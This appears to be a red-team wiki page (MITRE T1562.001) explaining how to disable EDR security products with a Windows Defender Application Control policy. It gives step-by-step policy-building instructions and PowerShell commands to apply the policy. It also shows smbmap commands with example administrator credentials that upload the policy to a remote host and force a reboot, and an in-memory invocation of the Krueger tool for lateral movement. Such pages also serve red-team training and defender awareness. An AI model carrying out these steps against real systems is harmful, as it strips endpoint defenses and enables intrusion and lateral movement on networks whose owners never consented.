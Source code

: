 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# Windows Defender Application Control (WDAC): Killing EDR

Theory

Windows Defender Application Control (WDAC) was introduced with Windows 10 and allows organizations to control which drivers and applications are allowed to run on their Windows clients. It was designed as a security feature under the [servicing criteria](https://www.microsoft.com/msrc/windows-security-servicing-criteria), defined by the Microsoft Security Response Center (MSRC).

**EDR drivers or binaries can therefore be blocked using a WDAC policy.**

{% hint style="danger" %}
In order to bypass EDR products using the following method, a reboot is required, which is a bad OPSEC operation.
{% endhint %}

## Practice

In order to set up a Windows Defender Application Control (WDAC) policy that can tamper with a targeted EDR, follow this guide:

{% tabs %}
{% tab title="Locally" %}
### 1. Setup Your Environement

On a fresh installed Windows Virtual machine, we will install:

* [Dotnet 8 SDK](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-8.0.403-windows-x64-installer)
* [WDAC Wizzard](https://webapp-wdac-wizard.azurewebsites.net/)
* The targetted EDR Agent

### 2. Create a WDAC Policy

When all setup, we can start creating an EDR-Blocking WDAC Policy using the WDAC Wizzard utility:

1. Select "Policy Editor"

<figure><img src="../../../.gitbook/assets/image-20241009110409414.png" alt=""><figcaption></figcaption></figure>

2. Select the "AllowAll" template from `C:\Windows\Schemas\CodeIntgrity\ExamplePolicies\AllowAll.xml` and click "Next"

<figure><img src="../../../.gitbook/assets/image-20241009110346223.png" alt=""><figcaption></figcaption></figure>

3. Ensure that "Audit Mode" is Unchecked, click "Next"

<figure><img src="../../../.gitbook/assets/image-20241008151153062.png" alt=""><figcaption></figcaption></figure>

4. Click "Add Custom"

<figure><img src="../../../.gitbook/assets/image-20241009111120016.png" alt=""><figcaption></figcaption></figure>

5. Specify conditions on the targeted EDR Publisher, executable/drivers hashes, Product Name, or even Paths.

{% hint style="info" %}
For this technique to be effective in tampering with EDR functions, it is essential to identify and select both user-land processes (e.g., PE/exe files) and drivers (e.g., sys files) that are necessary for the EDR's to properly work.
{% endhint %}

{% hint style="danger" %}
However, avoid blocking entire EDR related drivers and processes, as this may lead to system crashes or blue screens. \
Instead, **focus on blocking the minimal components, necessary to interfere with the essential functions of the EDR.**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image-20241008161041864.jpg" alt=""><figcaption></figcaption></figure>

6. When done, wait for the WDAC Policy to build. It will create an XML and PolicyBinary file.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 3. Apply the WDAC Policy

We can now upload the previously build PolicyBinary file to a target host, and [apply it](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/deployment/appcontrol-deployment-guide) using below command lines:

```powershell
# Windows 11 22H2 and above
CiTool --update-policy C:\Path\To\{Policy}.cip

# Windows 11, Windows 10 version 1903 and above, 
# And Windows Server 2022 and above
$PolicyBinary = "C:\Path\To\{Policy}.cip"
$DestinationFolder = $env:windir+"\System32\CodeIntegrity\CIPolicies\Active\"
$RefreshPolicyTool = "<Path where RefreshPolicy.exe can be found from managed endpoints>"
Copy-Item -Path $PolicyBinary -Destination $DestinationFolder -Force
& $RefreshPolicyTool

# All other versions of Windows and Windows Server
$PolicyBinary = "C:\Path\To\{Policy}.cip"
$DestinationBinary = $env:windir+"\System32\CodeIntegrity\SiPolicy.p7b"
Copy-Item  -Path $PolicyBinary -Destination $DestinationBinary -Force
Invoke-CimMethod -Namespace root\Microsoft\Windows\CI -ClassName PS_UpdateAndCompareCIPolicy -MethodName Update -Arguments @{FilePath = $DestinationBinary}
```

<figure><img src="../../../.gitbook/assets/image-20241008161514514.png" alt=""><figcaption></figcaption></figure>

### 4. Reboot

After reboot, (and maybe several tests to identify which process/driver to block) the EDR should be now disabled.
{% endtab %}

{% tab title="Remotely" %}
Because the only action to implement the WDAC configuration is moving the policy into the CodeIntegrity folder, this can be done remotly with administrative privileges through the built in `C$` or `ADMIN$` shares.

<table><thead><tr><th width="157">Policy Format</th><th>File System Location</th><th>Policy File Name Format</th></tr></thead><tbody><tr><td>Single</td><td><code>C:\Windows\System32\CodeIntegrity\</code></td><td><code>SiPolicy.p7b</code></td></tr><tr><td>Multiple</td><td><code>C:\Windows\System32\CodeIntegrity\CiPolicies\Active\</code></td><td><code>{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}.cip</code></td></tr></tbody></table>

UIpload the policy directly from a Linux machine:

```bash
smbmap -u Administrator -p P@ssw0rd -H 192.168.4.4 --upload "/home/kali/SiPolicy.p7b" "ADMIN\$/System32/CodeIntegrity/SiPolicy.p7b"
```

Reboot the target:

```bash
smbmap -u Administrator -p P@ssw0rd -H 192.168.4.4 -x "shutdown /r /t 0"
```

Additionally a purpose-built tool has been created to carry out this attack. [**Krueger**](https://github.com/logangoins/Krueger) is a custom tool written in C# by [Logan Goins](https://x.com/_logangoins) specifically meant to be run in memory as part of post-exploitation lateral movement activities. The example below uses `inlineExecute-Assembly` (created by [@anthemtotheego](https://x.com/anthemtotheego)) to execute the .NET assembly in memory.

```bash
inlineExecute-Assembly --dotnetassembly C:\Tools\Krueger.exe --assemblyargs --host ms01
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ninjaone.com/blog/understanding-windows-defender-application-control-wdac/" %}

{% embed url="https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/" %}

{% embed url="https://x.com/0x64616e/status/1822041831573479479" %}
